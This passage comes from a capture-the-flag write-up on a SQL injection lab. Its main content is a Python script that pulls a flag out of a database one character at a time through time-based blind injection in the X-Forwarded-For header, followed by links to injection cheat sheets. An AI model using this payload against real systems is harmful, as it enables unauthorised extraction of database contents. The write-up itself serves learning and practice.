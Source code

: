 **flag.py**

```
import requests
import time
import string

server = "10.10.157.66" # IP OR SERVERNAME IF IN HOST FILE
flag = ""
loop = 1

while chr(125) not in flag:
    for a in range(48,126):
        start = time.time()
        r = requests.get(url="http://" + server, headers={'X-Forwarded-For':f"1' AND (SELECT sleep(2) FROM flag where (ASCII(SUBSTR(flag,{loop},1))) = '{a}'); --+"})
        end = time.time()
        if end-start >= 2:
            flag += chr(a)
            loop += 1
            print("Finding Flag: ", flag, end="\r")
            break
print("Flag found: ", flag)
```

**Kali**

```
python flag.py
```

<figure><img src="../../.gitbook/assets/image (806).png" alt=""><figcaption></figcaption></figure>

## Flag 3 - Blind/Boolean - Curl Method

### SQL Injection Info <a href="#sql-injection-info" id="sql-injection-info"></a>

Looking at the room description we’re told specifically to find five different flags using various types SQL injection:

```
There are 5 flags to find but you have to defeat the different SQL injection types.
Hint: Unless displayed on the page the flags are stored in the flag table in the flag column.
```

There are a ton of great resources out there on the internet to help with SQLi. A few good ones that have helped me are [this](https://github.com/Y000o/sql_injection_basic/blob/master/sql_injection_basic_en.md), and [this](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet), which both have lots of information and examples. There’s also this [cheatsheet](https://cheatography.com/binca/cheat-sheets/sql-injection) which is nicely laid out, and [this](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet) one which has a good list of boolean based examples to try. Finally [this](https://www.acunetix.com/websitesecurity/sql-injection2/) article is a good introduction to the five basic type of SQL injection.
